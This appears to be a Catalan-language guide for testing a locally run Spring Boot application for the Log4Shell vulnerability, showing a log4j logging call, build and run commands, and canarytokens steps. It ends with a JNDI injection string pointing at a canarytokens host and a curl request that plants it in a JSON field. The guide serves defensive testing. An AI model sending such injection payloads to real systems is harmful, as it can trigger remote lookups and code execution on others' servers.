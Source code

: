 ```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

private static Logger log = LogManager.getLogger(EquipamentServiceController.class.getName());

public void saveEquipament(@RequestBody Equipament equipament) {
log.error("equipament.getNom() {}", equipament.getNom());
...
}
```

* Iniciar el projecte creat amb el servidor Tomcat embegut:

```sh
mvn clean spring-boot:run
# or
mvn clean package && java -jar ./target/CanigoLog4jShellTest.war
# or
mvn clean package docker:build \
&& docker run -it --rm \
--net=host \
--name="log4jshell-local" \
--memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
canigo/app
```

### Utilizant el projecte `canarytokens`

El projecte de codi obert `canarytokens` permet generar tokens per a explotar vulnerabilitats, de forma que, si en
utilitzar un token s'explota una vulnerabilitat, s'envia un correu electrònic amb els detalls de l'accés.

Per a més informació:

* https://docs.canarytokens.org/guide
* https://github.com/thinkst/canarytokens

Pasos a seguir:

* Generar un token tipus `Log4Shell` des de: <https://canarytokens.org/generate#>:

```txt
${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}
```

* Generar una petició HTTP Request per a crear un `equipament` i en el nom enviar el token maliciós creat amb `canarytokens`:

```sh
curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
--header 'Content-Type: application/json' \
--data-raw '{ "nom": "${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}","municipi": "Barcelona"}'
```
